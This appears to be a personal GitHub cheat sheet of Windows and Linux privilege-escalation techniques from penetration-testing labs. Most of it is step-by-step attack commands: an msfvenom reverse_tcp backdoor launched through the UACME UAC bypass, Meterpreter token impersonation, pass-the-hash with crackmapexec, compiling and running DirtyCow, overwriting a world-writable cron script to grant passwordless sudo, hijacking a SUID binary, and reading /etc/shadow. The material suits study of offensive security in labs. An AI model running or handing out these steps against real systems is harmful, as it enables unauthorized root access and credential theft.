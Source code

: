 # PRIVESC

* WINDOWS:

\-KERNEL EXPLOIT:

After obtaining a meterpreter if we cannot make a hashdump:

search suggester (this post exploitation module shows the vulns & metasploit modules that can be used to elevate privileges) -> select what you want, configurate & run it.

Manual:

Go back to meterpreter -> shell -> sysinfo -> copy info on a text file -> control+c to see the meterpreter -> open another terminal & create a text file with nano & paste the previous info.

Search the directory of windows-exploit-suggester -> execute the python script & add --update -> then execute ./windows-exploit-suggester.py –database theonewecreatedwhenupdating --systeminfo the previous text file (the exploits that are in the firsts positions have more probability to work)

Go back to the unprivileged session of meterpreter and go to the Temp path -> upload /route/chosen/exploit -> shell -> .\exploit.exe 7 (where 7 is the O.S. version - windows 7) -> we obtain a new shell with all the privileges.

\-BYPASSING UAC WITH UACME:

Watch the github repo of UACme to see the appropiate technique:

We have access to a Windows with an unprivileged user which is in admins. locales -> cmd -> net users (actual account is IEUser) -> net localgroup administrators -> when you open a cmd as administrator the UAC pop-ups.

In meterpreter:

sysinfo (take notes) -> pgrep explorer -> migrate PIDexplorer -> getuid (we are users of the group admin) -> getprivs (few privileges) -> shell -> net user -> net localgroups administrator -> net user admin password123 (access denied = UAC)

Go to the UACme github repository & download the appropiate version -> msfvenom -p windows/meterpreter/reverse\_tcp LHOST=ipkali LPORT=availableport -f exe > backdoor.exe

Open another metasploit & use multi/handler (Config the same as the msfvenom payload) -> run

Come back to the meterpreter session of admin -> go to Temp and if it dowsn't exists, create it with mkdir -> upload backdoor.exe -> upload /root/Desktop/tools/UACME/Akagi64.exe (UAC chosen from the GitHub repo) -> shell -> dir -> .\Akagi64.exe 23 C:\Temp\backdoor.exe (& in the multi/handler listener we have the privileged session)

\-ACCESS TOKEN IMPERSONATION:

Those privileges are neccessary for an attack:

SeAssignPrimaryToken: grants permission to impersonate tokens to the user.

SeCreateToken: grants permission to the user to create administrator tokens.

SeImpersonatePrivilege: grants the user to create a process down the context of security of another user with privileges, normally.

incognito Meterpreter module: allows impersonating tokens after exploitation, allows to list the available tokens in order to impersonate them.

Exploitation acces token impersonation:

In a Meterpreter -> sysinfo (take notes) -> pgrep explorer -> migrate PIDexplorer -> getuid -> getprivs (if you have the SeImpersonatePrivilege)-> load incognito (if the session dies do the exploit again) -> list\_tokens -u (we have delegation tokens, we are interested in the Administrator account) -> copy that token to the clipboard -> impersonate\_token “TOKEN\Administrator” -> pgrep explorer -> migrate PIDexplorer -> getprivs (ya tenemos todos)

If there aren't tokens make the potato attack to create the token & impersonate\_token “NT AUTHORITY\SYSTEM”

The unattended windows setup utility stores user info. & system info config.: C:\Windows\Panther\Unattend.xml & Autounattend.xml passwords encoded in base64

Pass the hash authentication: with the psexec metasploit module or crackmapexec.

metasploit search psexec -> use the suitable one -> config the payload -> set smbpass plaintext OR hash LM:NTLM -> set target Command Native\ upload (the suitable one)

crackmapexec: crackmapexec smb IPobj -u Administrator -H “NTLM hash” (Pwned! = fine) -x “command” to execute commands.

* Linux:

\-KERNEL EXPLOIT:

We need to know the kernel version (uname -a)

Metasploit Meterpreter + Linux Exploit Suggester:

sysinfo (OS + version + kernel); getuid (user without privileges \[even a service user like www-data works])

cd /tmp -> upload \~/Desktop/Linux-Enum/les.sh -> chmod +x les.sh -> ./les.sh (enumerate vulns & exploits, also tells the kernel version ¨& arcquitecture) -> download the DirtyCow from [exploit-db.com](https://www.exploit-db.com/) (written in C) -> mv 40839.c dirty.c (rename) -> gcc -pthread dirty.c -o dirty -lcrypt (follow the compiling instructions of the exploit which are inside of it) -> come back to meterpreter & upload \~/Downloads/dirty (upload the compiled binary) -> /bin/bash -i -> chmod +x dirty -> ./dirty (input a password if you want) -> we get an error because it's not compiled on the victim machine -> come back to meterpreter -> shell -> /bin/bash -i -> gcc -pthread dirty.c -o dirty -lcrypt -> chmod +x dirty -> ./dirty password123 (makes an user firefart which is root & makes a backup of /etc/passwd before creating the user; now we have an user firefart with the password password123) -> su firefart (doesn't work but it's on SSH too) -> ssh firefart@IPobj (login) -> we are root so we can cat /etc/shadow to see the hashes of the user accounts.

\-MISCONFIGURED CRON JOBS:

We have access to a Linux target without a privileged account.

crontab -l (no crontab for student)

ls -al in home there's a file owned by root without permissions, only has read and write permissions for the root user (file=message)

cd / -> grep -rnw /usr -e “home/student/message” (search resucrisvely from the root path, in /usr where typically are the shell scripts where appears home/student/message) -> response: /usr/local/share/copy.sh:2:cp /home/student/message /tmp/message

We found a shell script (/usr/local/share/copy.sh & the appear of “home/student/message” it tells us the archive that is copied in /tmp/message)

list the /tmp content with ls -al /tmp

We have the message file with reading permissions -> cat the file

ls -al /usr/local/share/copy.sh (the file owns to root but it has permissions for everyone)

We make cat & see that it does what is red & black coloured upside, every minute (the script executes every minute)

in this lab we don't have nano or vim so: printf ‘#!/bin/bash\necho “student ALL=NOPASSWD:ALL” >> /etc/sudoers’ > /usr/local/share/copy.sh

sudo -l (user student may run the following commands:

(root) NOPASSWD: /etc/init.d/cron (before modifying the script)

(root) NOPASSWD: ALL (after modifying the script)

sudo su (we are root without authentication)

crontab -l (to see when the cron jobs is executed)

\-EXPLOITING SUID BINARIES:

We have access with unprivileged user:

en /home/student -> ls -al (we have 2 binaries, greeting & welcome, both belongs to the root user) greeting only has permissions r & x for root but welcome has permissions rwsrxrx which S is the SUID privilege and we can execute it with privileges.

file welcome is an ELF standard binary with a shared object (after the interpreter = shared object) if the shared object doesn't exist we can create one with malicious code that elevates our privileges. In this case the shared object exists (noone is missing)

strings welcome to see the shared object & see the setuid (so it's a SUID) and we see that it invokes the binary “greetings”, which is external, but executes it.

rm greetings -> cp /bin/bash greetings now the welcome binary executes the bash shell as root when I execute the welcome binary, and now I'm root

Now we can cat /etc/shadow to see the user passwords hashed and whaterver we want.

\-EXPLOITING A VULNERABLE PROGRAM:

After obtaining a meterpreter:

shell -> ps aux (root executes a binary /bin/check-down through a bash /bin/bash \[first the bash appears and then the binary])&#x20;

cat /bin/check-down (is a bash script that from a while loop executes every 60 seconds the program chkrootkit)

chkrootkit is a program that scans the PC to prevent the execution of a rootkit, in this particular case, is vulnerable to a privilege escalation (this vuln only affects versions previous than 0.5.0)

To see the version of the program chkrootkit –help -> chkrootkit -V

Control+C to close the shell channel

Background the meterpreter session

search chkrootkit -> use -> show options -> session & path of chkrootkit & lhost & lport -> exploit (if it doesn't works put the absolute path of chkrootkit) and we are root.
